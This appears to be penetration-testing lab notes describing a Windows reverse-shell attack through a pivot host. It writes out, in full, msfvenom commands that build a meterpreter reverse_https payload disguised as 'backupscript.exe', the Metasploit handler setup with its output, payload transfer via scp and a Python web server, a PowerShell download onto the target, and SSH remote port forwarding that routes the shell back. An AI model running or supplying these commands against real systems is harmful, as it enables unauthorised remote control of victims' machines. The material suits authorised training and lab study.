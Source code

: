 

#### Creating a Windows Payload with msfvenom
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

#### Configuring & Starting the multi/handler
```shell
use exploit/multi/handler


[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

#### Transferring Payload to Pivot Host
```shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

#### Starting Python3 Webserver on Pivot Host
```shell
python3 -m http.server 8123
```

#### Downloading Payload from Windows Target
```shell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

#### Using SSH -R , tell the pivot to lesting to any coming req to `8080` and forward it to our machine in `8000`
```shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
